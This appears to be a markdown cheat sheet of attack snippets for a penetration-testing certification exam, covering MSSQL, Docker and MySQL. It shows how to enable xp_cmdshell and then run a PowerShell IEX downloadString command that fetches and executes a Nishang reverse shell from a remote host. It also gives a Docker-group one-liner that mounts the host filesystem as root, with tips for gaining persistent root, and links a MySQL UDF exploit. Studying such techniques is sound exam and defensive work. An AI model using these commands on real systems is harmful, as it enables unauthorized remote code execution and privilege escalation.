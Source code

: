 # Software Vulnerabilities

---

This is just a collection of snippets for various pieces of software and how they can potentially be abused. And is mainly for quick reference, such as for a certification exam.

---

## Table of Contents
- [Windows](#windows)
	- [MSSQL](#mssql)
- [Linux](#linux)
	- [Docker](#docker)
	- [MySQL](#mysql)

---

## Windows

---

### MSSQL

#### xp_cmdshell with Nishang

Requires: MSSQL credentials

```sql
> EXEC SP_CONFIGURE 'show advanced options', 1
> reconfigure
> go

> EXEC SP_CONFIGURE 'xp_cmdshell', 1
> reconfigure
> go
```

This sets up the MSSQL server to allow using xp_cmdshell. Then we can execute a nishang rev shell as such (make sure the revshell executes itself at the bottom of the script):

```sql
xp_cmdshell "powershell IEX(New-Object Net.webclient).downloadString('http://10.0.0.1/revshell.ps1')"
```

---

## Linux

---

### Docker

#### PrivEsc One-Liner

Requires: Low-level user in the docker group

This command will create and mount a docker container containing the entire filesystem, and makes you root WITHIN THE CONTAINER. 

```bash
docker run -it -v /:/mnt alpine chroot /mnt
```

NOTE: Remember, if you're doing the OSCP, you have to become proper root, so docker root isn't the end (despite having unrestricted file access). Add a root ssh key, change password, create a SUID bash copy, etc. to become proper root. 

---

### MySQL

#### UDF

User-Defined Functions is a thing: https://www.exploit-db.com/exploits/1518

If MySQL runs as root, this can be used to privesc.
